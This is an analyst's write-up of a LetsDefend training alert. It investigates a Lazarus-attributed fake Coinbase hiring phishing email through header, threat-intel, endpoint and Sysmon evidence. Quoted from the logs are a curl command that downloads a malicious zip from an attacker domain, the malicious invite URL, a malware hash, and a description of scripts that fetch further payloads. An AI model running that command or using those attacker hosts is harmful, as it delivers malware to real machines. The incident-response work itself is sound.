# SOC337 - Lazarus Phishing Campaign Detected (APT38)

## Alert Details

| Field              | Value                                            |
|--------------------|--------------------------------------------------|
| **Event ID**       | 315                                              |
| **Event Time**     | 2025-03-06T07:15:00+03:00                        |
| **Rule**           | SOC337 - Lazarus Phishing Campaign Detected (APT38) |
| **Role**           | Incident Responder                               |
| **Alert Type**     | APT Group                                        |
| **Difficulty**     | Medium                                           |
| **MITRE ATT&CK**   | T1598.002, T1566, T1059, T1059.001, T1204.001, T1105 |
| **SMTP Address**   | 152.89.61.96                                     |
| **Device Action**  | Allowed                                          |
| **Email Subject**  | Invitation: Coinbase Crypto Trader Hiring Assessment |
| **Source Address** | `trevorgreer9312@gmail.com`                        |
| **Destination**    | `Ellen@letsdefend.io`                              |




## Investigation

After taking ownership of the alert, I created a ticket and began working on it.

Since this was a phishing email, I decided to start my investigation from the **Email Security** tab. The email was directed at Ellen, so I initially intended to filter for her address; but to get a broader picture of potential exposure, I searched for the **attacker's email address** instead to determine whether anyone else had received the same message.

The results returned a single email with the subject line:

> *"Invitation: Coinbase Crypto Trader Hiring Assessment 🚀"*

That subject reads like a classic hiring scam. But let's go deeper..


### Examining the Email Body

The email body opened with:

> *"Hello Ellen, Welcome to Coinbase Crypto Trader Hiring Assessment - Test Duration: 20 mins"*

This phrasing introduced an interesting possibility: Ellen may have applied for something prior to receiving this email. That possibility is worth investigating. I noted the email timestamp (**2025-03-06 04:15:00**) and decided to filter Ellen's email records for anything sent or received **before** that date, to see if there was any prior engagement.

The results showed that she had sent no emails, and her received emails returned only the same message we were already looking at.



---

### Threat Intelligence - Sender IP

It was time to run some threat intel. I queried the sender IP through the threat intelligence dashboard. The sender IP on record was `172.16.20.3`, a private IP address, but one that could theoretically be used in a crafted or internally relayed message. The query returned **no results**.



I also queried the **SMTP address** (`152.89.61.96`) - again, no threat intelligence records came back.

Before cross-referencing with AbuseIPDB, I pivoted to the **Log Management** dashboard. Filtering on the SMTP address returned a single log entry which was the same email we were already investigating.




### Endpoint Investigation - Ellen's Machine

With the email context established, I moved to **endpoint analysis** to examine Ellen's machine directly.. browser history, process activity, and anything else that could reveal what happened after she received the email.



Using the email timestamp as my pivot point, I worked both backwards and forwards in time. The browser history showed that Ellen visited:

```
https://blockchainjobhub.com/invite/E3fM8yF7
```

at **2025-03-07 00:21:35**.

I queried that domain through the threat intelligence dashboard - it came back **tagged as Lazarus Group infrastructure**.





### Terminal History

I spawned the host and reviewed the terminal history. The output showed only **Sysmon installation commands** with nothing immediately alarming at this layer.



At this point, I made the call to **contain the host** and flag the email for deletion from Ellen's inbox. The threat intel match on the Lazarus-tagged domain was enough to justify containment before continuing the investigation.




### Email Header Analysis

Before deleting the email, I downloaded the `.eml` file and opened it in **Thunderbird** to analyze the headers.

Key finding: the message was sent from a **personal Gmail address** (`trevorgreer9312@gmail.com`) while impersonating a Coinbase recruitment process. No legitimate corporate hiring pipeline would route through a personal Gmail account.

Notably, **SPF, DKIM, and DMARC checks all passed**, but that only confirms the message was correctly authenticated from Gmail's infrastructure. It says nothing about the sender's legitimacy or intent. The authentication passing here is a feature of the attack, not a clearance.




### PowerShell Extraction Activity

The terminal history revealed something very significant in my investigation: **repeated execution of PowerShell commands** using `Expand-Archive` to extract `nvidiaupdate.zip` into `C:\Users\LetsDefend\nvidiadrive`.

The archive name and the repeated extraction attempts were suspicious; the naming pattern mimics a legitimate NVIDIA driver update, a well-known social engineering lure. The history also showed references to `silcollector.cmd` and a Windows registry query for `SoftwareInventoryLogging\CollectionState`.

The extraction commands ran at approximately **2025-03-07 00:25:27**.




### Malware Confirmation - VirusTotal

I navigated to `C:\Users\LetsDefend\nvidiaupdate.zip` and calculated the file hash:

```
6d153b76187f02bb670f2172fb704aae
```

I submitted that hash to **VirusTotal**.

The result came back as `realtekwin.zip`, **detected by 18 of 68 security vendors**, with classifications spanning **Trojan** and **Downloader** categories. That confirmed the archive was malicious.





### Tracing the Download Origin

Back in Log Management, I filtered for `nvidia`. One log entry returned originating from `172.16.17.214` at **2025-03-06 21:23:40**. It was a process creation event:

```
"C:\Windows\system32\curl.exe" -k -o "C:\Users\LetsDefend\nvidiaupdate.zip" https://api.drivercams.cloud/nvidia-al.update
```

This was the root source. `curl.exe` used the `-k` flag (disabling TLS certificate verification) and the `-o` flag to download the ZIP from `api.drivercams.cloud` and save it locally. The domain `drivercams.cloud` is not affiliated with NVIDIA in any way.


### Analyzing the Extracted Artifacts

With the extraction path confirmed, I examined the contents of `C:\Users\LetsDefend\nvidiadrive`.



**`update.vbs`** and **`gobatch.bat`** - both masquerading as NVIDIA driver-update utilities, both using `curl` to download additional payloads. Several inconsistencies made these suspicious:

- References to **Linux `.run` installers** inside Windows scripts - a clear tell
- Incorrectly formatted environment variables in the batch file
- The VBScript aligned precisely with the known **Lazarus Group / ClickFake Interview** infection chain

**`minictadriver.sys`** was also present and contained readable **INF-style driver configuration text**. There was another one that was in binary. 

These findings, combined with the `curl.exe` download event at `172.16.17.214`, painted a clear picture of the delivery mechanism.




### Sysmon Process Chain

From the Sysmon logs, I identified the **PowerShell process creation event** at **2025-03-07 00:25:26**.



Working upward from that timestamp, I found a file creation event:

```
TargetFilename: C:\Users\LetsDefend\AppData\Local\Temp\1\__PSScriptPolicyTest_snc3vzxk.r40.ps1
CreationUtcTime: 2025-03-07 00:25:36.049
```

I browsed to that path but the file was **no longer present**, indicating it had been cleaned up post-execution.




### Network Connections - PowerShell Beaconing

The next log confirmed **outbound network connections initiated by PowerShell**:

**Connection 1:**
```
UtcTime: 2025-03-07 00:25:39.518
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
SourceIp: 172.31.3.74
DestinationIp: 204.79.197.203
DestinationHostname: a-0003.a-msedge.net
DestinationPort: 80
```

**Connection 2:**
```
UtcTime: 2025-03-07 00:25:39.632
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
SourceIp: 172.31.3.74
DestinationIp: 96.17.78.44
DestinationHostname: a96-17-78-44.deploy.static.akamaitechnologies.com
DestinationPort: 80
```




### VBScript Execution Confirmed

File creation events for `MiniCtaDriver.sys`, `update.vbs`, and `gobatch.bat` were logged at **2025-03-07 00:25:42**.

Moments later, execution was confirmed:

```
CommandLine: "C:\Windows\system32\wscript.exe" "C:\Users\LetsDefend\nvidiadrive\update.vbs"
Timestamp: 2025-03-07 00:25:55
```

Ellen opened the VBScript manually from the file manager. `wscript.exe` executed it.



This was followed by DNS queries from the **SentinelOne agent** (`SentinelAgent.exe` running as `NT AUTHORITY\SYSTEM`).. mm perhaps consistent with the agent reacting to the detected activity.

At this point, the incident was confirmed. Containing the host earlier was the right call.


### Threat Intel Cross-Reference - SEKOIA Blog

Further research led me to a SEKOIA blog post documenting the **ClickFake Interview campaign** by Lazarus Group:

> https://www.sekoia.com/blog/clickfake-interview-campaign-by-lazarus

